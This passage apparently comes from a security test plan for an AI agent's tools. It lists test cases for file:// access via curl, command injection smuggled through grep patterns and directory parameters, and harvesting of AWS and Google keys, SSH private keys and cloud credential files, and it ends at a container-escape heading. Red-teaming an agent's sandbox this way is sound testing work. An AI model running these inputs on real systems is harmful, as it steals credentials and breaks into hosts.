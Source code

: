 ### 2.2 Curl → File Access
**Objective**: Use curl to access local files via file:// protocol

**Test Cases**:
```bash
# Direct file access
curl_request: file:///etc/passwd

# Combine with command injection
curl_request: file:///etc/passwd; cat /etc/shadow

# Use curl to download and execute
curl_request: file:///etc/passwd -o /tmp/stolen.txt
execute_shell_command: cat /tmp/stolen.txt
```

### 2.3 Search → Command Injection → File Read
**Objective**: Chain grep search with command injection

**Test Cases**:
```bash
# Inject commands via grep pattern
search_files: root' /etc/passwd || cat /etc/shadow || echo '
search_files: root'; cat /etc/shadow; echo 'pattern

# Inject via directory parameter
search_files: root, directory: /etc; cat /etc/shadow; echo /etc
```

### 2.4 Environment Variable → Credential Harvesting → Privilege Escalation
**Objective**: Extract credentials and use them for elevated access

**Test Cases**:
```bash
# Step 1: Harvest environment variables
get_environment_variable: GOOGLE_API_KEY
get_environment_variable: AWS_ACCESS_KEY_ID
get_environment_variable: AWS_SECRET_ACCESS_KEY
get_environment_variable: PATH
get_environment_variable: HOME

# Step 2: Use discovered paths for further access
read_file: $HOME/.ssh/id_rsa
read_file: $HOME/.aws/credentials
read_file: $HOME/.config/gcloud/credentials

# Step 3: List all environment variables
execute_shell_command: env
execute_python_code: __import__('os').environ
```

## 3. Container Escape Techniques

